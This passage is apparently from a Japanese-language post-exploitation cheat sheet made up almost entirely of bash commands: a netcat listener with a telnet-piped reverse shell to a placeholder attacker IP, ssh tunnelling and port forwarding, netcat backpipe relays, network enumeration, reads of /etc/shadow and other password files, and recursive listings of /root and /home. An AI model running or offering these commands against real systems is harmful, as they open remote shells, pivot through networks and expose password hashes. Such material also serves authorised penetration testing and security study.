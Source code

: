 ```bash
nc -lvp 4444
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445
```

#### トンネリング

```bash
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig
```

#### ポートフォワーティング

```bash
#ローカルポート
ssh -L 8080:127.0.0.1:80 root@[IP]
#リモートポート
ssh -R 8080:127.0.0.1:80 root@[IP]

# Port Relay
mknod backpipe p ; nc -l -p 8080 < backpipe | nc [IP] 80 >backpipe 
# Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe   
# Proxy monitor (Port 80 to 8080
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    
```

#### 他のネットワーク

```bash
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```

## ユーザ情報と機密情報

```bash
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
cat /etc/group
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null


ls -alh /var/mail/
```

####　ホームティレクトリー

```bash
ls -ahlR /root/
ls -ahlR /home/
```
